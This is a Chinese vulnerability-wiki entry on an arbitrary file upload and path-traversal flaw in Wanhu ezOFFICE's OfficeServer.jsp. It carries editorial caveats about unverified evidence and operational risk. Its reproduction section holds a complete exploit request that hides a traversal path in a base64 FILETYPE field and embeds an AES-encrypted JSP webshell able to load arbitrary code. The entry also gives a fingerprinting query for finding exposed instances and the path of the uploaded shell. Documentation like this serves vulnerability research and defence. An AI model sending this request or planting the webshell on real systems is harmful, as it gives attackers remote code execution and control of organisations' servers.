


# 万户ezOFFICE OfficeServer.jsp文件上传/路径穿越写入

## 条目说明

- 对象与具体问题：万户ezOFFICE；OfficeServer.jsp文件上传/路径穿越写入
- 版本、配置及部署条件：未给版本；iWebOffice/DBSTEP及JSP部署
- 认证与权限前提：请求含OASESSIONID，未说明必需权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需拆开已知officeserverservlet关联接口与本篇OfficeServer.jsp主漏洞
- 文件类型字段承载路径；只给加密webshell样本与截图，缺无害标记响应
- IP伪造头存在但作用未解释

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

### 漏洞影响

```
万户OA
```

### 网络测绘

```
app="万户网络-ezOFFICE"
```

### 漏洞复现

产品页面


发送请求包

```http
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=8******************************6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

> 请求长度说明：原资料 Content-Length 为 798；静态长度已移除，应由客户端根据最终请求体的字节数生成。



上传后的目录为

```
/defaultroot/public/edit/cmd_test.jsp
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
